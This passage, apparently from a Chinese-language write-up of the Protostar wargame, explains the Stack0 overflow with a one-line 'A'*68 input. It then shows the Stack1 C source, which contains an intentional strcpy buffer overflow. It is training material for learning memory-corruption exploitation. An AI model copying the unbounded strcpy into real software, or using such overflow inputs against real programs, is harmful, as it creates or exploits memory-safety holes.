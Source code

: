 可以看到**buffer**的位置是`esp+0x1c`， **modified**变量在`esp+0x5c`， 二者距离是**0x40**，也就是**64个字节大小**，通过`输入超过64个字节的数据`，就能**覆盖modified变量**.

### EXP

`python -c "print('A'*68)" | ./stack0`

| stack |
| :--- |
| esp + 0x1c |
| ... |
| ... |
| esp + 0x5c |

## Stack1

### About

This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

This level is at /opt/protostar/bin/stack1

Hints

If you are unfamiliar with the hexadecimal being displayed, “man ascii” is your friend. Protostar is **little endian**

### Source code

{% code title="stack1.c" %}
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```
{% endcode %}
